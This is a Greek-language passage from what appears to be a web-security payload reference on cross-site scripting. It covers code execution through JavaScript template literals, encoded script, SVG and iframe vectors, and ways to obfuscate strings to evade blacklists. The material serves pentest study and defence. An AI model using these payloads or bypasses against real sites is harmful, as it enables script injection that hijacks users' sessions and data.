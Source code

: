Για να κατασκευάσετε **strings** εκτός από τα μονά και διπλά εισαγωγικά, η JS δέχεται επίσης **backticks** **` `` `**. Αυτό είναι γνωστό ως template literals καθώς επιτρέπουν την **ενσωμάτωση εκφράσεων JS** χρησιμοποιώντας τη σύνταξη `${ ... }`.\
Επομένως, αν διαπιστώσετε ότι η είσοδός σας **αντικατοπτρίζεται** μέσα σε μια JS string που χρησιμοποιεί backticks, μπορείτε να εκμεταλλευτείτε τη σύνταξη `${ ... }` για να εκτελέσετε **τυχαίο JS κώδικα**:

Αυτό μπορεί να **εκμεταλλευτεί** χρησιμοποιώντας:
```javascript
`${alert(1)}`
`${`${`${`${alert(1)}`}`}`}`
```

```````````````javascript
// This is valid JS code, because each time the function returns itself it's recalled with ``
function loop(){return loop}
loop``````````````
```````````````
### Κωδικοποιημένη εκτέλεση κώδικα
```markup
<script>\u0061lert(1)</script>
<svg><script>alert&lpar;'1'&rpar;
<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</script></svg>  <!-- The svg tags are neccesary
<iframe srcdoc="<SCRIPT>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;</iframe>">
```
### Unicode Encode JS εκτέλεση
```javascript
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
### Τεχνικές παράκαμψης μαύρων λιστών JavaScript

**Συμβολοσειρές**
```javascript
"thisisastring"
'thisisastrig'
`thisisastring`
/thisisastring/ == "/thisisastring/"
/thisisastring/.source == "thisisastring"
"\h\e\l\l\o"
String.fromCharCode(116,104,105,115,105,115,97,115,116,114,105,110,103)
"\x74\x68\x69\x73\x69\x73\x61\x73\x74\x72\x69\x6e\x67"
"\164\150\151\163\151\163\141\163\164\162\151\156\147"
"\u0074\u0068\u0069\u0073\u0069\u0073\u0061\u0073\u0074\u0072\u0069\u006e\u0067"
"\u{74}\u{68}\u{69}\u{73}\u{69}\u{73}\u{61}\u{73}\u{74}\u{72}\u{69}\u{6e}\u{67}"
"\a\l\ert\(1\)"
atob("dGhpc2lzYXN0cmluZw==")
eval(8680439..toString(30))(983801..toString(36))
```
**Ειδικές διαφυγές**
```javascript
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
'\b' //backspace
'\f' //form feed
'\n' //new line
'\r' //carriage return
'\t' //tab
// Any other char escaped is just itself
```